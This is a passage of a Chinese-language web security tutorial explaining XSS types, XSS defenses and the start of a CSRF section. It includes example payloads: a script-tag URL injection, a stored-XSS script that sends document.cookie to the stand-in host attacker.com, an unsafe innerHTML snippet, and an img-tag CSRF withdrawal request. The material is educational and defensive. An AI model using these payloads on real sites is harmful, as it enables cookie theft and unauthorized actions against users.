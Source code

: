 #### XSS类型

1. 反射型:反射型也称为非持久型，主要用于将恶意的脚本附加到URL地址的参数中。

   如以下代码，点击链接后会执行alert(document.cookie)，然后成功盗取用户cookie

   ```
   http://example.com/search?q=<script>alert(document.cookie)</script>
   ```

2. 存储型：攻击者将已经构造完成的恶意页面发送给用户，用户访问看似正常的页面后收到攻击，这类XSS通常无法直接在URL中看到恶意代码，具有较强的持久性和隐蔽性。

   如以下代码，在用户访问时，执行xhr.send(document.cookie)，将用户的cookie发送到攻击者控制的服务器

   ```
    <script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://attacker.com', true); xhr.send(document.cookie); </script>
   ```

3. DOM：DOM型XSS无需和后端交互，而是基于JavaScript上，JS解析URL中恶意参数导致执行JS代码

   如以下代码，读取用户输入后将这个输入展示在另一地方，如果有恶意脚本则会受到攻击

   ```
   var userInput = document.getElementById('inputBox').value;
   document.getElementById('resultDiv').innerHTML = userInput;
   ```

#### 防御

1. 输入验证和输出编码:  对用户输入进行严格的验证和过滤，防止恶意代码注入。对输出到页面的数据进行编码，防止恶意脚本执行。

2. 内容安全策略（Content Security Policy, CSP）:  CSP是一种强大的防御机制，通过限制浏览器能够执行哪些脚本，防止XSS攻击。CSP允许网站管理员指定可信的脚本来源和执行方式。

3. HTTP 头部安全:  设置适当的HTTP头部可以增强浏览器的安全策略。例如，`X-Content-Type-Options: nosniff`可以防止浏览器进行MIME类型嗅探，`X-XSS-Protection: 1; mode=block`可以启用浏览器的XSS防护机制。

4. 使用安全开发框架:  采用安全的开发框架和库，这些框架和库通常内置了防御XSS的功能。例如，Django、Ruby on Rails和ASP.NET等现代Web框架提供了自动的输出编码和输入验证机制。

5. 设置HttpOnly。通过设置Cookie的HttpOnly为true，可以防止客户端脚本访问这个Cookie，从而有效的防止XSS攻击。

   

​            

### 3．跨站请求伪造（CSRF）和防御

跨站请求伪造（Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。跟跨站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。CSRF是让用户在不知情的情况下，冒用其身份发起请求

#### CSRF攻击类型

1. GET请求的CSRF：攻击者通过构造恶意的GET请求，诱使用户点击链接或访问恶意网站，从而在用户不知情的情况下执行恶意操作。

   如以下代码，用户访问页面后，浏览器会自动发出请求，a.com就会收到包含受害者登录信息的一次跨域请求

   ```
   <img src="http://a.com/withdraw?amount=10000&for=hacker" >
   ```
